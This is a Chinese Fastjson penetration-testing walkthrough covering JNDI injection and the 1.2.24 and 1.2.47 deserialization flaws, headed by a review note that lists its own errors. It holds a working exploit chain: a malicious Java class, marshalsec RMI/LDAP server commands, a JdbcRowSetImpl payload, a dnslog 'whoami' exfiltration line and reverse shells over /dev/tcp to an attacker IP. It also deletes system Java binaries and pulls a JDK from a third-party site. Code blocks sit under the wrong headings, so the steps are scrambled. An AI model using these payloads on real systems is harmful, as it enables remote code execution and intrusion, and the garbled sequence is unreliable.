## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：1.2.24/41/42/45/47/62/66; lab8u102; AutoType variants described inconsistently; metadata version is {

代码与实验材料：RMI/LDAP lab and class code; headings/commands shifted, broken IP lines/ports, repeated62/66 payload block

来源证据范围：Original WeChat, Fastjson and marshalsec repos; no precise patches

- **结论使用边界（1）**：Multiple misassigned sections: impact contains startup/class code,&lt;=42 exp MyBatis,&lt;=45 exp cache bypass,&lt;=47 exp XBean。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **结论使用边界（2）**：Invalid detection criterion；依据：JSON response and not404 means vulnerable。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **操作与副作用边界（3）**：Destructive host setup and unverified binary source; should isolate lab rather than recommend system replacement；依据：rm -rf /usr/bin/java* with third-party HTTP JDK archive。保留原步骤及请求方法。执行条件包括隔离且获授权的可恢复环境、预先记录相关文件/账号/配置/业务记录状态；响应完成不能等同无副作用，恢复时须核对该操作涉及的实际对象。

- **代码与转录边界（4）**：Malformed version metadata,8u121/122 explanation and RMI/LDAP URL/port inconsistencies。相应原代码作为存在此问题的历史样本保留，不能直接当作可运行、成功复现的 PoC；缺失内容需回原稿核对，不据此补造可执行攻击链。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# FastJson 渗透测试

> 版本字段校订（2026-10-04）：误填的版本字段原值逐字保存到对应 `previous_*` 字段。当前值区分正文声称的影响范围、实验环境与尚未知的范围；后文对该元数据误填的旧说明只描述校订前状态，未据此升级来源结论。

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/V_gPNfryXHjWfluuJyPv7Q)

**1.FastJson 简介**
-----------------

fastjson.jar 包原始下载地址：  

```
https://github.com/alibaba/fastjson
```

fastjson 用于将 Java Bean 序列化为 JSON 字符串，也可以从 JSON 字符串反序列化到 JavaBean。fastjson.jar 是阿里开发的一款专门用于 Java 开发的包，可以方便的实现 json 对象与 JavaBean 对象的转换，实现 JavaBean 对象与 json 字符串的转换，实现 json 对象与 json 字符串的转换。除了这个 fastjson 以外，还有 Google 开发的 Gson 包，其他形式的如 net.sf.json 包，都可以实现 json 的转换。方法名称不同而已，最后的实现结果都是一样的。  

```
将json字符串转化为json对象
在net.sf.json中是这么做的
JSONObject obj = new JSONObject().fromObject(jsonStr);//将json字符串转换为json对象
在fastjson中是这么做的
JSONObject obj=JSON.parseObject(jsonStr);//将json字符串转换为json对象
```

### **1.1 JNDI**

JNDI 是 Java 命名与目录接口（Java Naming and Directory Interface），在 J2EE 规范中是重要的规范之一。JNDI 提供统一的客户端 API，为开发人员提供了查找和访问各种命名和目录服务的通用、统一的接口，可以用来定位用户、网络、机器、对象和服务等各种资源。比如可以利用 JNDI 再局域网上定位一台打印机，也可以用 JNDI 来定位数据库服务或一个远程 Java 对象。JNDI 底层支持 RMI 远程对象，RMI 注册的服务可以通过 JNDI 接口来访问和调用。  

##### JNDi 是应用程序设计的 Api，JNDI 可以根据名字动态加载数据，支持的服务主要有以下几种：

```
DNS、LDAP、CORBA对象服务、RMI
```

### **1.2 利用 JNDI References 进行注入**

对于这个知识点，我们需要先了解 RMI 的作用。  

首先 RMI（Remote Method Invocation）是专为 Java 环境设计的远程方法调用机制，远程服务器实现具体的 Java 方法并提供接口，客户端本地仅需根据接口类的定义，提供相应的参数即可调用远程方法。RMI 依赖的通信协议为 JRMP(Java Remote Message Protocol ，Java 远程消息交换协议)，该协议为 Java 定制，要求服务端与客户端都为 Java 编写。这个协议就像 HTTP 协议一样，规定了客户端和服务端通信要满足的规范。在 RMI 中对象是通过序列化方式进行编码传输的。RMI 服务端可以直接绑定远程调用的对象以外，还可通过 References 类来绑定一个外部的远程对象，当 RMI 绑定了 References 之后，首先会利用 Referenceable.getReference() 获取绑定对象的引用，并在目录中保存，当客户端使用 lookup 获取对应名字时，会返回 ReferenceWrapper 类的代理文件，然后会调用 getReference() 获取 Reference 类，最终通过 factory 类将 Reference 转换为具体的对象实例。  

**服务端**  

```
import com.sun.jndi.rmi.registry.ReferenceWrapper;
import javax.naming.Reference;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
public class RMIServer {
 public static void main(String args[]) throws Exception {
 Registry registry = LocateRegistry.createRegistry(1099);
 // Reference需要传入三个参数(className,factory,factoryLocation)
 // 第一个参数随意填写即可，第二个参数填写我们http服务下的类名，第三个参数填写我们的远程地址
 Reference refObj = new Reference("Evil", "EvilObject", "http://127.0.0.1:8000/");
 // ReferenceWrapper包裹Reference类，使其能够通过RMI进行远程访问
 ReferenceWrapper refObjWrapper = new ReferenceWrapper(refObj);
 registry.bind("refObj", refObjWrapper);
 }
}
```

###### 从 ReferenceWrapper 源码可以看出，该类继承自 UnicastRemoteObject，实现对 Reference 的包裹，使其能够通过 RMI 进行远程访问



##### **客户端**

```
1.首先开启HTTP服务器，并将我们的恶意类放在目录下
2.开启恶意RMI服务器
3.攻击者控制url参数为上一步开启的恶意RMI服务器地址
4.恶意RMI服务器返回ReferenceWrapper类
5.目标（JNDI_Client）在执行lookup操作的时候，在decodeObject中将ReferenceWrapper变成Reference类，然后远程加载并实例化我们的Factory类（即远程加载我们HTTP服务器上的恶意类），在实例化时触发静态代码片段中的恶意代码
```

##### 如果我们可以控制 JNDI 客户端中传入的 url，就可以起一个恶意的 RMI，让 JNDI 来加载我们的恶意类从而进行命令执行。

##### 我们来看一下 References，References 类有两个属性，className 和 codebase url，className 就是远程引用的类名，codebase 决定了我们远程类的位置，当本地 classpath 中没有找到对应的类的时候，就会去请求 codebase 地址下的类（codebase 支持 http 协议），此时如果我们将 codebase 地址下的类换成我们的恶意类，就能让客户端执行。

##### ps：在 java 版本大于 1.8u191 之后版本存在 trustCodebaseURL 的限制，只能信任已有的 codebase 地址，不再能够从指定 codebase 中下载字节码。

##### 整个利用流程如下

```
1.反序列化常用的两种利用方式，一种是基于rmi，一种是基于ldap。
2.RMI是一种行为，指的是Java远程方法调用。
3.JNDI是一个接口，在这个接口下会有多种目录系统服务的实现，通过名称等去找到相关的对象，并把它下载到客户端中来。
4.ldap指轻量级目录服务协议。
```

**2.FastJson 渗透总结**
-------------------

```
基于rmi的利用方式：适用jdk版本：JDK 6u132，JDK 7u131，JDK 8u121之前；
在jdk8u122的时候，加了反序列化白名单的机制，关闭了rmi远程加载代码。
基于ldap的利用方式，适用jdk版本：JDK 11.0.1、8u191、7u201、6u211之前。
在Java 8u191更新中，Oracle对LDAP向量设置了相同的限制，并发布了CVE-2018-3149，关闭了JNDI远程类加载。
可以看到ldap的利用范围是比rmi要大的，实战情况下推荐使用ldap方法进行利用。
```

##### 存在 Java 版本限制：

```
Fastjson < 1.2.25
```

### **2.1 fastjson 1.2.24 反序列化导致任意命令执行漏洞（CVE-2017-18349）**

**漏洞原理**  

FastJson 在解析 json 的过程中，支持使用 autoType 来实例化某一个具体的类，并调用该类的 set/get 方法来访问属性。通过查找代码中相关的方法，即可构造出一些恶意利用链。  

通俗理解就是：漏洞利用 fastjson autotype 在处理 json 对象的时候，未对 @type 字段进行完全的安全性验证，攻击者可以传入危险类，并调用危险类连接远程 rmi 主机，通过其中的恶意类执行代码。攻击者通过这种方式可以实现远程代码执行漏洞的利用，获取服务器的敏感信息泄露，甚至可以利用此漏洞进一步对服务器数据进行修改，增加，删除等操作，对服务器造成巨大影响。  

#### 影响版本

```
docker-compose up -d
docker ps
```

#### 漏洞启动

靶机：Ubuntu ip：192.168.9.234        攻击机：kali ip：192.168.10.65  

开启 fastjson 漏洞  

```
curl http://192.168.9.234:8090/ -H "Content-Type: application/json" --data '
{"name":"zcc", "age":18}'
```





访问靶机，可以看见 json 格式的输出：  





因为是 Java 8u102，没有 com.sun.jndi.rmi.object.trustURLCodebase 的限制，我们可以使用 com.sun.rowset.JdbcRowSetImpl 的利用链，借助 JNDI 注入来执行命令。  

##### 在 kali 上执行下面这条命令，使用 curl 命令模拟 json 格式的 POST 请求，返回 json 格式的请求结果，没报 404，正常情况下说明存在该漏洞。

```
cd /opt
curl http://www.joaomatosf.com/rnp/java_files/jdk-8u20-linux-x64.tar.gz -o jdk-8u20-linux-x64.tar.gz
tar zxvf jdk-8u20-linux-x64.tar.gz
rm -rf /usr/bin/java*
ln -s /opt/jdk1.8.0_20/bin/j* /usr/bin
javac -version
java -version
```



##### kali 安装 Javac 环境，这里我已经安装好了

```
import java.lang.Runtime;
import java.lang.Process;
public class zcc{
 static {
 try {
 Runtime rt = Runtime.getRuntime();
 String[] commands = {"touch", "/tmp/zcctest"};
 Process pc = rt.exec(commands);
 pc.waitFor();
 } catch (Exception e) {
 // do nothing
 }
 }
}
```



##### 编译恶意类代码

```
javac zcc.java
```





```
python -m SimpleHTTPServer 80
```



搭建 http 服务传输恶意文件  

```
git clone https://github.com/mbechler/marshalsec.git
```



##### 编译并开启 RMI 服务:

>1 下载 marshalsec(我这里已经安装好）：  

```
apt-get install maven
```



>2 然后安装 maven：  

```
mvn clean package -DskipTests
```



###### >3 然后使用 maven 编译 marshalsec 成 jar 包，我们先进入下载的 marshalsec 文件中运行：

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://192.168.
10.65/#zcc" 9999
```





###### >4 然后我们借助 marshalsec 项目，启动一个 RMI 服务器，监听 9999 端口，并制定远程加载类 TouchFile.class，这里的 ip 为你上面开启 http 服务的 ip，我们这里就是 kali 的 ip:

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://192.168
.10.65/#zcc" 9999
```

这里如果要启动 LDAP 服务的话，只需把上面命令中的 RMI 改成 LDAP 即可，例如：  

```
{
 "b":{
 "@type":"com.sun.rowset.JdbcRowSetImpl",
 "dataSourceName":"rmi://192.168.10.65:9999/zcc",
 "autoCommit":true
 }
}
```



可以看见请求成功，并加载了恶意类。  

>5 使用 BP 抓包，并写入 poc(记住请求包里面请求方式改成 post，Content-Type 改成 application/json)：

```
http://www.dnslog.cn/
```











可以看见成功写入。  

这里我们用 dnslog 做一个小测试：

```
"/bin/sh","-c","ping user.'whoami'.jeejay.dnslog.cn"
```



直接覆盖原来得文件；  

```
"/bin/bash","-c","exec 5<>/dev/tcp/192.168.10.65/8899;cat <&5 | while read line; do $line 2>&5 >&5; done"
或者
"/bin/bash", "-c", "bash -i >& /dev/tcp/192.168.10.65/1234 0>&1"
```





点击 send 发送之后成功回显  



##### 反弹 shell 的话也只需修改恶意类中 commands 的内容即可，代码参考如下，建议用第二个，第二个前面带主机名，看起来舒服点，我这里用的第一个；

```
Fastjson < 1.2.47
```





### **2.2 Fastjson 1.2.47 远程命令执行漏洞**

**漏洞原理**  

Fastjson 是阿里巴巴公司开源的一款 json 解析器，其性能优越，被广泛应用于各大厂商的 Java 项目中。fastjson 于 1.2.24 版本后增加了反序列化白名单，而在 1.2.48 以前的版本中，攻击者可以利用特殊构造的 json 字符串绕过白名单检测，成功执行任意命令。  

#### 影响版本

```
// javac TouchFile.java
import java.lang.Runtime;
import java.lang.Process;
public class zcc {
 static {
 try {
 Runtime rt = Runtime.getRuntime();
 String[] commands = {"touch", "/tmp/zcctest111"};
 Process pc = rt.exec(commands);
 pc.waitFor();
 } catch (Exception e) {
 // do nothing
 }
 }
}
```

漏洞启动





##### 因为目标环境是 openjdk：8u102，

##### 这个版本没有 com.sun.jndi.rmi.object.trustURLCodebase 的限制，我们可以利用 RMI 进行命令执行。

